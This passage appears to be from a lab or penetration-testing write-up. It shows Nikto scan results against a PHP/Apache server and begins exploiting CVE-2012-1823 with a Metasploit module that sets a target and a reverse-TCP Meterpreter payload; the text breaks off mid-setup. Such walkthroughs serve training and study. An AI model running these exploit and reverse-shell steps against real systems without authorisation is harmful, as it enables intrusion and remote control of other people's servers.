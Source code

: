    + /phpinfo.php: Output from the phpinfo() function was found.

   + /doc/: Directory indexing found.

   + /doc/: The /doc/ directory is browsable.

   + /?=PHPB8B5F2A0-3C92-11d3-A3A9-4C7B08C10000: PHP reveals potentially sensitive information via certain HTTP requests.

   + /phpMyAdmin/changelog.php: phpMyAdmin is for managing MySQL databases, and should be protected.

   + /phpMyAdmin/ChangeLog: Server may leak inodes via ETags.

   + /test/: Directory indexing found.

   + /phpinfo.php: PHP is installed, and a test script which runs phpinfo() was found.

   + /icons/: Directory indexing found.

   + /phpMyAdmin/: phpMyAdmin directory found.

   + /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.

   ```

![[Pasted image 20250408095925.png]]

   Key findings from the Nikto scan:
   - Apache 2.2.8 (outdated)
   - PHP 5.2.4 (vulnerable)
   - phpMyAdmin installation (potential access to database)
   - phpinfo.php file (information disclosure)
   - Directory indexing enabled in multiple locations
   - Potential WordPress configuration file exposed

2. **Remote Code Execution (RCE) via PHP CGI Vulnerability**:  

   The server is running PHP 5.2.4, which is vulnerable to CVE-2012-1823 (PHP CGI Argument Injection). We can exploit this using Metasploit:

   ```bash

   └─$ msfconsole

   msf6 > use exploit/multi/http/php_cgi_arg_injection

   [*] No payload configured, defaulting to php/meterpreter/reverse_tcp

   msf6 exploit(multi/http/php_cgi_arg_injection) > set RHOSTS 192.168.74.162

   RHOSTS => 192.168.74.162

   msf6 exploit(multi/http/php_cgi_arg_injection) > set RPORT 80

   RPORT => 80

   msf6 exploit(multi/http/php_cgi_arg_injection) > set TARGETURI /cgi-bin/php

   TARGETURI => /cgi-bin/php

   msf6 exploit(multi/http/php_cgi_arg_injection) > set PAYLOAD php/meterpreter/reverse_tcp

   PAYLOAD => php/meterpreter/reverse_tcp
